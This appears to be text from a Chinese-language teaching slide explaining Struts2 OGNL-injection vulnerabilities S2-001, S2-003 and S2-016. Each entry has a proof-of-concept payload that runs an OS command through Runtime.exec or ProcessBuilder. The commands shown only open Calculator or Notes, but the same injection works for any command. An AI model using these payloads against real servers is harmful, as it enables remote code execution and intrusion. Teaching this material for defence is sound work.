

漏洞成因——固定的语句格式
当参数值是形如%{*}的形式的时候，ST2会把这个值当做OGNL表达式去执行
S2-001
%{@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app/")}
S2-003
通过构造形如(exp)(a)(b)的形式的表达式，放入ognl.setvalue，最终会将exp带入ognl.getvalue
http://www.glassy.com/test.action?('#context[\'xwork.MethodAccessor.denyMethodExecution\']=false')(a)(b)&('@java.lang.Runtime@getRuntime().exec(\'open /Applications/Notes.app/\')')(a)(b)
S2-016
ST2使用action:或redirect:\redirectAction:作为前缀参数来进行短路导航状态变化，后面用来跟一个期望的目标表达式。
http://www.glassy.com/Struts2Demo_war_exploded/hello.action? redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'/bin/bash', '-c','open /Applications/Notes.app/'})).start()}